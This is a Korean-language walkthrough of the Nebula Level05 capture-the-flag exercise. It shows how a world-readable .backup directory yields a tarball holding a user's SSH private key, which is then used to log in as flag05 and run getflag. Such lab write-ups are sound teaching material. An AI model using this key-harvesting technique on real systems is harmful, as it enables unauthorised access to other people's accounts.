 # Exploit-exercise Nebula Level05
```
Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.
```

`flag05` 계정의 홈 디렉토리를 보면 보안에 취약한 폴더가 있다고 하네요.

`level05` 계정으로 로그인 한 뒤,
```
ls -al /home/flag05/
```

를 입력하여 디렉토리 안의 내용을 확인하면
```
total 9
drwxr-x--- 1 flag05 level05   80 2014-06-03 04:19 .
drwxr-xr-x 1 root   root     420 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw------- 1 flag05 flag05    13 2014-06-03 04:19 .bash_history
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
drwx------ 2 flag05 flag05    60 2014-06-03 04:17 .cache
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

다음과 같이 뜨는데, 이 때 `.backup` 디렉토리의 권한을 보면 others 부분에 r-x 가 되어있어서 읽기가 가능하다는 것을 알 수 있다.

그렇다면 한 번 `.backup` 디렉토리를 가져와서 안의 내용을 확인해본다.

```
cp -R /home/flag05/.backup/ ~/backup
cd ~
```

이제 `backup` 폴더를 보면

```
cd backup
ls
```
```
backup-19072011.tgz
```

`backup-19072011.tgz` 파일이 있고, 다음과 같이 압축을 풀어준다.

```
gzip -d ./backup-19072011.tgz
tar -xvf ./backup-19072011.tgz
```

이때 `tar` 명령어에서 `-v` 플래그를 함께 주었기에, 압축을 푸는 과정에서 파일들을 볼 수 있는데, 다음과 같은 출력 결과가 나온다.

```
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

`.ssh` 폴더를 백업해놨던 파일임을 알 수 있다.

그렇다면 이제 저 ssh 인증 키를 사용하여 로그인을 해보겠다.

```
ssh -i ./.ssh/id_rsa flag05@localhost
```

을 입력하면 (일부 환경에서는 `yes` 를 입력해야 하기도 한다.) flag05 계정으로 로그인이 되는 것을 볼 수 있다.

이제 `getflag` 를 입력하면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.